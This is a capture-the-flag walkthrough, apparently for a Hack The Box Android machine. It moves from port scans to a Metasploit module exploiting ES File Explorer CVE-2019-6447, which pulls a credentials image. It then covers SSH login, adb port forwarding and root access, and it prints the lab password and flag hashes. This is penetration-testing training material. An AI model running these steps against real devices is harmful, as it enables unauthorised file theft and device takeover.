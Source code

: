# Explore
## CVE
## Metasploit
## Android Studio
```bash

➜  ~ sudo vi /etc/hosts
Add:

10.10.10.247 explore.htb

➜  ~ rustscan -a explore.htb --ulimit 5000

PORT      STATE SERVICE      REASON
2222/tcp  open  EtherNetIP-1 syn-ack
36127/tcp open  unknown      syn-ack
59777/tcp open  unknown      syn-ack

➜  ~ mkdir ~/htb/Intro_to_Android_Exploitation/Explore
➜  ~ sudo nmap -sV -p- -T4 -oA ~/htb/Intro_to_Android_Exploitation/Explore -vv explore.htb

PORT      STATE    SERVICE REASON         VERSION
2222/tcp  open     ssh     syn-ack ttl 63 (protocol 2.0)
5555/tcp  filtered freeciv no-response
36127/tcp open     unknown syn-ack ttl 63
59777/tcp open     http    syn-ack ttl 63 Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older

➜  ~ sudo nmap -Pn -sU -T4 -p1-500 -vv explore.htb

PORT    STATE         SERVICE       REASON
47/udp  open|filtered ni-ftp        no-response
99/udp  open|filtered metagram      no-response
139/udp open|filtered netbios-ssn   no-response
140/udp open|filtered emfis-data    no-response
292/udp open|filtered unknown       no-response
301/udp open|filtered unknown       no-response
338/udp open|filtered unknown       no-response
357/udp open|filtered bhevent       no-response
384/udp open|filtered arns          no-response
404/udp open|filtered nced          no-response
416/udp open|filtered silverplatter no-response
433/udp open|filtered nnsp          no-response

GoogleFu:

port 59777

Response:

'ES File Explorer Open Port Vulnerability - CVE-2019-6447'


msf6 > search ES File Explorer 4.1.9.7.4 
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > show options
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set rhosts 10.10.10.247
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > show actions

   Name            Description
   ----            -----------
   APPLAUNCH       Launch an app. ACTIONITEM required.
   GETDEVICEINFO   Get device info
   GETFILE         Get a file from the device. ACTIONITEM required.
   LISTAPPS        List all the apps installed
   LISTAPPSALL     List all the apps installed
   LISTAPPSPHONE   List all the phone apps installed
   LISTAPPSSDCARD  List all the apk files stored on the sdcard
   LISTAPPSSYSTEM  List all the system apps installed
   LISTAUDIOS      List all the audio files
   LISTFILES       List all the files on the sdcard
   LISTPICS        List all the pictures
   LISTVIDEOS      List all the videos

msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set action LISTPICS
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > show actions
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set action GETFILE
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set ACTIONITEM /storage/emulated/0/DCIM/creds.jpg
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run

[+] 10.10.10.247:59777   - /storage/emulated/0/DCIM/creds.jpg saved to /root/.msf4/loot/20220627081015_default_10.10.10.247_getFile_271181.jpg

➜  ~ sudo apt install install imagemagick
➜  ~ sudo display /root/.msf4/loot/20220627081015_default_10.10.10.247_getFile_271181.jpg
➜  ~ sudo cp /root/.msf4/loot/20220627081015_default_10.10.10.247_getFile_271181.jpg .

After realizing the picture was exceptionally large:

➜  ~ convert 20220627081015_default_10.10.10.247_getFile_271181.jpg -resize 300x300! new.jpg
➜  ~ display new.jpg 

Also needing rotation:

➜  ~ convert -rotate "90" new.jpg newer.jpg
➜  ~ display newer.jpg 

Alternatively,

➜  ~ convert 20220627081015_default_10.10.10.247_getFile_271181.jpg -resize 300x300! -rotate "90" new.jpg

Response:

Kr1sT!5h@Rp3xPl0r3!

Troubleshoot ssh connectivity issues w/ host:

➜  cd .ssh ; mkdir config ; chmod 600 config
➜  sudo vi config
Add:

Host explore.htb
    User kristi
    PubKeyAcceptedAlgorithms +ssh-rsa
    HostKeyAlgorithms +ssh-rsa

➜  ssh kr1st@explore.htb -p 2222

Alternatively,

➜  cat config

Host explore
    HostName explore.htb	
    User kristi
    PubKeyAcceptedAlgorithms +ssh-rsa
    HostKeyAlgorithms +ssh-rsa
    Port 2222

➜  ssh explore

Password authentication
(kristi@explore.htb) Password: 

:/ $ cd storage/emulated/0                                                     
:/storage/emulated/0 $ cat user.txt 

f32017174c7c7e8f50c6da52891ae250

Ctrl-C

➜  ssh -L 5555:localhost:5555 explore

Back on your local machine:

➜  tools adb connect localhost:5555
➜  tools adb shell
x86_64:/ $ su          
:/ # cat /storage/emulated/0/user.txt

f32017174c7c7e8f50c6da52891ae250

:/ # cat data/root.txt   

f04fc82b6d49b41c9b08982be59338c5

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627082333.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627082415.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627082450.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627082601.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627082644.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627082719.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627083418.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627082039.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627091438.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627090922.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627092620.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627090335.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627090621.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627091235.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220627091252.png)

#hacking
